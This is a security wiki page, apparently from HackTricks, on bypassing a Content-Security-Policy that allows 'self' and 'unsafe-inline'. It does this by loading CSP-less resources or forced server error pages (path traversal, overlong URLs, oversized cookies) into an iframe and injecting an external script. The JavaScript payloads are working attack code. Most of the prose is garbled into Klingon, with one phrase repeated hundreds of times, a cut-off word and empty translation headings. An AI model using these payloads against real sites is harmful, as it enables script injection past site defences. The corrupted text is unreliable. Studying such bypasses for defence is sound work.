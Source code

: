 <details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


A configuration such as:
```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```
### Via Text & Images

**tlhIngan Hol:**

Qapla'! jatlhpu'wI'vam vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlhutlhlaHbe'chugh, 'ej vItlh
```javascript
frame=document.createElement("iframe");
frame.src="/css/bootstrap.min.css";
document.body.appendChild(frame);
script=document.createElement('script');
script.src='//example.com/csp.js';
window.frames[0].document.head.appendChild(script);
```
### QaD Errors

QaD, qar'a'pu'wI', je 'oHbe' typically come without CSP headers je images, text files, 'ej X-Frame-Options. QaD be induced to load within an iframe, allowing for the following actions:
```javascript
// Inducing an nginx error
frame=document.createElement("iframe");
frame.src="/%2e%2e%2f";
document.body.appendChild(frame);

// Triggering an error with a long URL
frame=document.createElement("iframe");
frame.src="/"+"A".repeat(20000);
document.body.appendChild(frame);

// Generating an error via extensive cookies
for(var i=0;i<5;i++){document.cookie=i+"="+"a".repeat(4000)};
frame=document.createElement("iframe");
frame.src="/";
document.body.appendChild(frame);
// Removal of cookies is crucial post-execution
for(var i=0;i<5;i++){document.cookie=i+"="}
```
**Translation:**

**DaH jatlh:**

**Translation (Markdown):**

After triggering any of the mentioned scenarios, JavaScript execution within the iframe is achievable as follows:
```javascript
script=document.createElement('script');
script.src='//example.com/csp.js';
window.frames[0].document.head.appendChild(script);
```
## References

* [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
